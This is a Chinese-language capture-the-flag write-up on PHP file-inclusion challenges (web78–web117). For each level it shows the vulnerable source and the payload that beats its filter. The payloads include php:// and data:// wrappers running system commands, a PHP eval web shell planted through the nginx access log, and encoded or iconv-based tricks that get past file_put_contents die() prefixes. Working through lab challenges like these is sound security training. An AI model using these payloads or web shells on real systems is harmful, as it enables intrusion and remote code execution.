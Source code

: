 ## 文件包含

### web78

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

```
php://filter/convert.base64-encode/resource=flag.php
data://text/plain,<?php system('cat flag.php');?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这里会把php字符替换成???，造成payload错误

还可以用短标签和base64加密，如下

```
data://text/plain,<?= system('tac flag.php');?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

### web80

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

过滤了data协议，还可以用日志包含

通过User-Agent头写入一句话`<?php eval($_POST[1]);?>`，然后包含日志文件

`?file=/var/log/nginx/access.log`

### web81

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

同样进行日志包含

```
<?php eval($_POST[1]);?>
?file=/var/log/nginx/access.log
```

### web87

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
}else{
    highlight_file(__FILE__);
}
```

这里涉及file_put_content函数的利用，参考

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-0)

这里会把die()写入文件，导致后面的代码不能执行，这时候我们将`<?php die('大佬别秀了');?>`进行搅乱从而绕过

```
?file=php://filter/write=convert.base64-decode/resource=3.php
content=<?php @eval($_POST[1]);?>
进行base64编码
content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

base64解码时，是4个一组，而`<?php die('大佬别秀了');?>`里只有6个字节，在补充2个字节就行了

```
最终payload
content=66PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30
```

因为php被过滤，我们要进行两次url全编码，第一次是过urldecode函数，第二次是有特殊字符会进行解码

![image-20231117150439765](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231117150439765.png)

### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

这里过滤了很多字符，还可以用data协议，注意这里过滤了`=`和`+`

payload

```
file=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
后面的等号要去掉
```

### web117

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-0)

[iconv函数](https://www.php.net/manual/zh/function.iconv.php)

```php
<?php
echo iconv("UCS-2LE","UCS-2BE",'<?php eval($_POST[1]);?>');
?>
?<hp pvela$(P_SO[T]1;)>?
```

payload

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
contents=?<hp pvela$(P_SO[T]1;)>?
```

注意：通过usc-2的编码进行转换；对目标字符串进行2位一反转；（因为是两位一反转，所以字符的数目需要保持在偶数位上）
